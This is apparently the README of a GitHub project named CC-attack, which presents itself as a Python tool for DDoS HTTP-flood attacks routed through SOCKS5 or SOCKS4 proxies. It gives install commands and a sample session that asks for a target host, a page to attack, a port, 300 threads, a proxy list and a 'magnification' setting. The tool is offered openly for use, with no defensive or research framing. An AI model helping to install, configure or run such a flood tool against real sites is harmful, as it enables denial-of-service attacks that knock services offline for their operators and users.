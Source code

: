       ____ ____        _   _   _             _
     / ___/ ___|      / \ | |_| |_ __ _  ___| | __
    | |  | |   _____ / _ \| __| __/ _` |/ __| |/ /
    | |__| |__|_____/ ___ \ |_| || (_| | (__|   <
     \____\____|   /_/   \_\__|\__\__,_|\___|_|\_\

# CC-attack ![](https://img.shields.io/badge/Version-1.2-brightgreen.svg) ![](https://img.shields.io/badge/license-MIT-blue.svg)
Use Socks5 proxy to ddos(Http-Flood) attack.

(It supports socks4 too.)

And now it is upgraded to python3 version.

# License

MIT License

## News

Now the script support https. :)

## Install

    pip3 install pysocks
    git clone https://github.com/Leeon123/CC-attack.git
    cd CC-attack

## Usage

If Target = http://xxx.com/index.html:

    python3 cc.py
    
      ____ ____        _   _   _             _
     / ___/ ___|      / \ | |_| |_ __ _  ___| | __
    | |  | |   _____ / _ \| __| __/ _` |/ __| |/ /
    | |__| |__|_____/ ___ \ |_| || (_| | (__|   <
     \____\____|   /_/   \_\__|\__\__,_|\___|_|\_\
    Python3 version 1.2
                                Cobed by Leeon123
    >---------------------------------------------<
                If you want to stop
               this script, pls just
                 close the window.
    >---------------------------------------------<
    > Host/Ip:xxx.com
    > Https(y/n):n
    > Page you want to attack:/index.html
    > Port(Https default is 443):80
    > Threads:300
    > Proxy file path(proxy.txt):(Your socks5 list)
    > Number Of Proxies:(your proxies number)
    > Input the Magnification:(50-100)
